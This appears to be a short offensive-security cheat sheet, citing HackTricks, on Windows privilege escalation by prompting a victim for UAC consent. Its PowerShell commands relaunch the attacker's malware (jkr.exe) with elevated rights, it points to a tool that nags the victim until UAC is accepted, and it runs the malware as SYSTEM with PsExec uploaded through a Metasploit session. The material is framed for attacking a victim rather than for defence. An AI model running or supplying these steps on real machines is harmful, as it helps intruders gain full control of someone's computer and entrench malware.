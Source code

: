 
> source : https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control#uac-bypass-with-gui

You can just ask for the UAC, but it's very noicy, since the victim has to accept the prompt

#### powershell syntax

```powershell
Start-Process <executable> -Verb runas

Start-Process 'powershell' -Verb runas -ArgumentList '-noexit -c <your command here> /priv'; exit

# example
Start-Process 'powershell' -Verb runas -ArgumentList '-noexit -c "whoami" /priv'; exit

```

### Example

```powershell
# list valid users
net user

# get user groups
net user talion
whoami /groups

# ask for uac just one time and re-execute our malware with new privileges
Start-Process "C:\Users\talion\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\jkr.exe" -Verb runas; exit

# If you don't care to be noisy, and continuously ask until UAC is accedpted by the victim, you could just use : https://github.com/Chainski/ForceAdmin

# Now that we have elevated our privileges, we can become NT AUTHORITY\SYSTEM with PsExec downloaded from https://live.sysinternals.com/
msf> upload PsExec.exe
.\PsExec.exe -i -s "C:\Users\talion\AppData\Local\Temp\jkr.exe"

```
